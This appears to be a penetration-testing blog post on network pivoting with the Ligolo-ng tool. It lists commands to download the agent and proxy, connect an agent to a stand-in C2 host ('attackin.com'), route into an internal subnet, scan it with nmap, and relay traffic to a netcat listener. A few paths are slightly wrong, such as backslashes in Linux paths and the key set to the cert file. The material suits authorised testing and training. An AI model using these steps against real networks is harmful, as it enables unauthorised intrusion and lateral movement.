 ```yaml
---
layout: '../../layouts/Post.astro'
title: 'Pivoting Methodology'
image: '/images/pivot1'
# image: 'https://22863376c5.clvaw-cdnwnd.com/2c46b638ae8400165ec727f2390cd862/200000109-4dacc4dacf/0_0k6y3ytGb8Fjtrnr.webp?ph=22863376c5'
publishedAt: "2023-10-3"
category: 'Hybrid'
---
```


## Overview


### Tools

#### Ligolo-NG
Repo: https://github.com/nicocha30/ligolo-ng/
Guide: https://youtu.be/DM1B8S80EvQ
Reqs: Requires Go 1.20

##### Linux Setup
##### Set-Up Tun Interface for Proxy
```bash
user=mellonaut
# agent
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && tar -xzvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && rm ligolo-ng_agent_0.4.4_linux_amd64.tar.gz

# proxy
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz && tar -xzvf ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz && rm ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz

sudo ip tuntap add user $user mode tun ligolo
sudo ip link set ligolo up
```

##### Linux Start Proxy
```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

##### TLS - No LetsEncrypt
```bash
cert=\home\mellonaut\cert.pem
key=\home\mellonaut\cert.pem

./proxy -certfile $cert -keyfile $key
./proxy -selfcert # must use -ignore-cert on the agent side
```

##### Windows Setup
##### Requires Win-Tun .dll from Wireguard project
```powershell
Invoke-WebRequest -Uri https://www.wintun.net/builds/wintun-0.14.1.zip -OutFile wintun-0.14.1.zip; Expand-Archive -Path wintun-0.14.1.zip -DestinationPath .\; Remove-Item wintun-0.14.1.zip
Invoke-WebRequest -Uri https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip -OutFile ligolo.zip; Expand-Archive -Path ligolo.zip -DestinationPath .\; Remove-Item ligolo.zip
Copy-Item -Path .\wintun\bin\amd64\*.dll -Destination .\ligolo\
```

##### Agent Usage
```bash
c2=https://attackin.com
./agent -connect $c2:11601
```

##### Agent SOCKS5 
```bash
c2=https://attackin.com
./agent -connect --socks $c2:11601
# --socks-user --socks-pass
```

##### Interacting -  Linux - Add Route to Ligolo
```bash
ligolo-ng >> session
1
ifconfig # Agents IPv4 address/ Subnet shown 192.168.0.30/24
sudo ip route add 192.168.0.0/24 dev ligolo # tun device is ligolo
```

##### Interacting -  Windows - Add Route to Ligolo
```powershell
netsh int ipv4 show interfaces
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

##### Access Network
From proxy server 
```bash
start # starts the tunnel
nmap 192.168.0.0/24 -v -sV -n --unprivileged # or -PE, use the tunnel, reduce false-positives if we're not admin
```

##### Add Listener to Agent, redirect all traffic from agent 1234 to C2 server 4321
Start a listener on the agent to redirect to the C2 server
```bash
# From Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```

Start a netcat listener to recieve the traffic
```bash
# From Proxy
nc -lvp 4321
```

     

